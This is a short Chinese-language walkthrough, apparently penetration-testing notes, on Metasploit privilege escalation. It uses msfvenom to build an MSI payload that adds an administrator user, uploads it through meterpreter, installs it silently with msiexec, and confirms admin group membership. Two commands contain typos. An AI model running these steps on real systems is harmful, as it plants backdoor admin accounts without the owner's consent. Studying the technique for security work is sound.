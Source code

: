 ```
msfvenom -p windows/adduser USER=msi PASS=Password12345 -f msi -o /tmp/adduser.msi
```

![image-20210811183500482](msf提权.assets/image-20210811183500482.png)



将生成的msi文件上传到目标主机上

```
upload   /home/haoyun/adduser.msi   c:\\adduser.msi
```

![image-20210811183700150](msf提权.assets/image-20210811183700150.png)



上传msi文件后，进入shell使用msiexec运行msi文件

```
msiexec  /quite  /qn  /i   c:\adduser.msi
/quiet:安装过程中禁止向用户发送消息
/qn:不使用GUI
/i:安装程序

```



运行成功后，验证是否添加msi用户到管理员用户组中

```
net localgroup  adminstrators
```

可以看到目标主机本地用户组中管理员用户组中存在msi用户,这样我们就有个已知的管理员用户

![image-20210811193253439](msf提权.assets/image-20210811193253439.png)
